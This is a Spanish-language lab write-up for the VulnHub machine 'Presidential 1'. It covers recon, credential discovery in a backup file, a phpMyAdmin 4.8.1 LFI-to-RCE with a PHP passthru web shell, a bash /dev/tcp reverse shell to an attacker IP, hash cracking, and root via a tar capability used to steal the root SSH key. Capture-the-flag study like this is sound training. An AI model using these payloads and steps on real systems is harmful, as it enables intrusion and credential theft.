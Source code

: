 ```yaml
---
layout: single
title: Presidential 1 - VulnHub
excerpt: " The state of Ontario has therefore asked you (an independent penetration tester) to test the security of their server in order to alleviate any electoral fraud concerns. Your goal is to see if you can gain root access to the server – the state is still developing their registration website but has asked you to test their server security before the website and registration system are launched. "
date: 2023-02-27
classes: wide
header:
  teaser: /blog/assets/images/vh-writeup-presidential1/presidential.png
  teaser_home_page: true
  icon: /blog/assets/images/vulnhub.webp
categories:
  - vulnhub
tags:
  - phpMyAdmin
  - LFI
  - RCE
  - MySQL
  - John
  - Capabilities
---
```


The Presidential Elections within the USA are just around the corner (November 2020). One of the political parties is concerned that the other political party is going to perform electoral fraud by hacking into the registration system, and falsifying the votes.


The state of Ontario has therefore asked you (an independent penetration tester) to test the security of their server in order to alleviate any electoral fraud concerns. Your goal is to see if you can gain root access to the server – the state is still developing their registration website but has asked you to test their server security before the website and registration system are launched.

# Summary
- IP: 192.168.1.42
- Ports: 80,2082
- OS: Linux (CentOS)
- Services & Applications:
	-  80 -> Apache httpd 2.4.6 ((CentOS)
	-  2082 -> OpenSSH 7.4 (protocol 2.0)

# Recon

- Escaneo básico de puertos:  

```bash
$nmap -p- -sS --open --min-rate 5000 -vvv -n -Pn 192.168.1.41 -oG allPorts
```


- Escaneo profundo de puertos encontrados:  

```bash
$nmap -p21,22,80 -sCV 192.168.1.41 -oN targeted
```




# Análisis de página web:


- Al analizar la página principal, vemos en el pie de página un dominio `"votenow.local"`, lo agregamos al "/etc/hosts" y accedemos.

- Al abrir este dominio vemos la misma página inicial, hacemos una búsqueda de directorios y archivos interesantes con gobuster:

```bash
$gobuster dir -u http://votenow.local/ -w /usr/share/SecLists/Discovery/Web-Content/common.txt -x zip,backup,bak,php.backup,php.bak,backup.php
```

- Encontramos un archivo `"config.php.bak"`, lo abrimos y en el código fuente encontramos unas credenciales para la base de datos, las guardamos en un archivo "credentials.txt".

- Hacemos búsqueda profunda de subdominios:

```bash
$gobuster vhost -u http://votenow.local -w /usr/share/SecLists/Discovery/Web-Content/directory-list-2.3-medium.txt -t 100 | grep -v "400"
```

- Encontramos el subdominio `"datasafe.votenow.local"`, lo agregamos al "/etc/hosts" y accedemos.



# phpMyAdmin 4.8.1 LFI to RCE:

- Nos encontramos con una página de `phpMyAdmin`, usamos aquí las credenciales anteriormente encontradas y accedemos.

- Primero ojeamos la base de datos, encontramos una base de datos llamada "votebox" con la tabla "users" en donde podemos ver el hash para el usuario "admin", guardamos este hash en un archivo "hash.txt"

- Buscamos vulnerabilidades para `phpMyAdmin` y encontramos un Local File Inclusion que podemos derivar a un `RCE`:

```bash
$searchsploit phpmyadmin
```

```bash
phpMyAdmin 4.8.1 - (Authenticated) Local File Inclusion (2)
```

```bash
searchsploit -x php/webapps/44928.txt
```

```
1. Run SQL Query : select '<?php phpinfo();exit;?>'
2. Include the session file :
http://1a23009a9c9e959d9c70932bb9f634eb.vsplate.me/index.php?target=db_sql.php%253f/../../../../../../../../var/lib/php/sessions/sess_11njnj4253qq93vjm9q93nvc7p2lq82k
```


- Entonces, ejecutamos una `Query`, en este caso, para ejecutar un comando que nos otorgue un parámetro "cmd" el cual lo usaremos para entablar una reverse shell desde el enlace:

```js
select "<?php echo passthru($_GET['cmd']); ?>"
```

- Ahora, accedemos mediante el `LFI` a la ruta que nos indica el exploit, corrigiendo en la parte de "sessions" a "session" y cambiando el valor de la cookie "11njnj4253qq93vjm9q93nvc7p2lq82k" por la nuestra:

```
http://datasafe.votenow.local/index.php?target=db_sql.php%253f/../../../../../../../../var/lib/php/session/sess_g3vpoi1ngebmq9a5ividh5g3ee10vmgg
```

- Comprobamos que haya ejecutado el comando que le dijimos ejecutando algo mediante el parámetro "cmd":

```
http://datasafe.votenow.local/index.php?target=db_sql.php%253f/../../../../../../../../var/lib/php/session/sess_g3vpoi1ngebmq9a5ividh5g3ee10vmgg&cmd=ls -l /
```

- Y ahora entablamos una reverse shell:

```
http://datasafe.votenow.local/index.php?target=db_sql.php%253f/../../../../../../../../var/lib/php/session/sess_g3vpoi1ngebmq9a5ividh5g3ee10vmgg&cmd=bash -c "bash -i >%26 /dev/tcp/192.168.1.35/443 0>%261"
```

- Ganamos acceso al sistema como el usuario `"apache"`



# ESCALANDO PRIVILEGIOS:

- Vemos que existe un usuario `"admin"` en el sistema.

- Usamos el hash que habíamos encontrado para intentar pivotar a este usuario (Tomará unos minutos el cracking de este hash, se recomienda usar hashcat):

```bash
$john -w:/usr/share/SecLists/Passwords/Leaked-Databases/rockyou.txt hash.txt
```

- Encontramos la contraseña para el usuario "admin", pivotamos a este:

```bash
$su admin
```

- Buscamos `capabilities`, y encontramos lo siguiente:

```bash
$getcap -r / 2>/dev/null

/usr/bin/tarS = cap_dac_read_search+ep
```


- Es decir, tenemos la capacidad de `lectura` de archivos usando el binario "tarS" el cual es equivalente al binario "tar".

- Usamos esta capacidad para `comprimir` un directorio al cual normalmente no tendríamos acceso, como lo es el directorio "/root/.ssh" en busca de credenciales de SSH:

```bash
$cd /tmp
$tarS -cvf root.tar /root/.ssh
```

- Ahora, descomprimimos este archivo ".tar" que hemos creado:

```bash
tarS -xf root.tar
```

- Abrimos el directorio `"/root/.ssh"` y copiamos el archivo `"id_rsa"` en nuestra máquina atacante:

- Ahora, le damos permisos al archivo y accedemos como root via SSH:

```bash
$ssh -i id_rsa root@192.168.1.43 -p 2082
```

- Y seremos `root`.



